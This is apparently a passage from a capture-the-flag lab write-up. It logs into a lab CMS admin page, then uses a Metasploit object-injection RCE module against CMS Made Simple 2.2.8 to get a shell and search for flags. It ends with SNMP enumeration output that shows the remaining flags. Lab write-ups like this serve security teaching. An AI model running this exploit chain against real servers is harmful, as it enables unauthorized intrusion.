 > atri / anasuya    

登录后台

http://192.168.70.44/Kashyapa/admin/login.php

> atri / anasuya

#### msf搜exp

```bash
msfconsole
search made simple 2.2.8
use exploit/multi/http/cmsms_object_injection_rce
set USERNAME atri
set PASSWORD anasuya
set RHOST 192.168.70.44
set TARGETURI Kashyapa
run
```



```bash
meterpreter > getuid                                                                                                         
Server username: www-data
shell

netstat -nlp
grep -irE "flag" /opt
```

> second flag:{nl1QG}

#### snmp

```bash
search snmp
use auxiliary/scanner/snmp/snmp_enum
set rhost 192.168.70.44
run
```



```bash
[*] System information:

Host IP                       : 192.168.70.44
Hostname                      : ubuntu
Description                   : Linux ubuntu 4.15.0-20-generic #21-Ubuntu SMP Tue Apr 24 06:16:15 UTC 2018 x86_64
Contact                       : congratulation,third flag:(xmcw==)
Location                      : user:{vedas}
Uptime snmp                   : 02:03:40.52
Uptime system                 : 02:03:33.27
System date                   : 2024-12-9 16:39:02.0

```
